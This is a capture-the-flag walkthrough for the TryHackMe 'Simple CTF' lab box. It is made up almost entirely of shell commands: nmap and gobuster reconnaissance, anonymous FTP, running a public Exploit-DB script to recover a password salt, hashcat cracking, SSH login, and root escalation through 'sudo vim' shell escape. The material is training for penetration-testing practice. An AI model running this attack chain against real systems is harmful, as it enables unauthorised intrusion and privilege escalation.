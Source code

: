 # THM - Simple CTF

```shell
nmap -A 10.10.56.179

ftp 10.10.56.179
	anonymous
		ls
		cd pub
		mget *
		bye

http://10.10.56.179/robots.txt

gobuster dir -w ../../Materials/KaliWordLists/dirbuster/directory-list-2.3-small.txt -u http://10.10.56.179
```

http://10.10.56.179/simple

https://www.exploit-db.com/exploits/46635

```shell
python2 -m pip install requests
python2 -m pip install termcolor

python2 46635.py -u http://10.10.56.179/simple
```

> Salt for password found: 1dac0d92e9fa6bb2
> 

```shell
hashcat -O -a 0 -m 10 :1dac0d92e9fa6bb2 KaliWordLists/rockyou.txt

hashcat -O -a 0 -m 10 :1dac0d92e9fa6bb2 KaliWordLists/rockyou.txt
```

> secret

```shell
ssh mitch@10.10.56.179 -p 2222
	yes
	secret
		ls
		cat user.txt
		
		ls /home
		
		sudo -l
		
		sudo vim -c ':!/bin/sh'		# https://gtfobins.github.io/gtfobins/vim/#sudo
			whoami
			
			ls /root
			cat /root/root.txt
```
